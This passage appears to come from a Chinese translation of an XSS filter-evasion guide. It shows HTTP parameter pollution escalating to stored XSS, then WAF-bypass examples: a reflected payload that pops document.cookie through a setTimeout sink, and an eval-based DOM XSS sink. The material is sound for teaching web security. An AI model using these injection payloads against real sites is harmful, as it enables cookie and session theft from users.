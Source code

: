 如果攻击者将不可信的内容标题设置为 `This is a regular title&content_type=1;alert(1)`，则 `Content` 页面中的链接将是：

```html
<a href="/share?content_type=1&title=This is a regular title&amp;content_type=1;alert(1)">Share</a>
```

#### Share 页面输出

而在 share 页面输出可能是：

```js
<script>
var contentType = 1; alert(1);
var title = "This is a regular title";
…
//这里可能有一些用户协议和发送到服务器的逻辑
…
</script>
```

因此，在这个示例中，主要缺陷是在 `Share` 页面中未经适当编码或验证就信任 content_type。HTTP 参数污染可以通过将 XSS 从反射型 XSS 提升到存储型 XSS 来增加 XSS 缺陷的影响。

## 字符转义序列

以下是 HTML 和 JavaScript 中字符 `\<` 的所有可能组合。大多数这些不会开箱即用，但如上所示，在某些情况下许多可以被渲染。

（此处省略了大量转义序列列表，因为篇幅所限）

## 绕过 WAF 的方法 - 跨站点脚本

### 常规问题

#### 存储型 XSS

如果攻击者设法通过过滤器，WAF 将无法阻止攻击的进行。

#### JavaScript 中的反射型 XSS

示例：

```js
<script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
```

利用：

```js
/?xss=500); alert(document.cookie);//
```

#### 基于 DOM 的 XSS

示例：

```js
<script> ... eval($\_GET\[xss\]); ... </script>
```
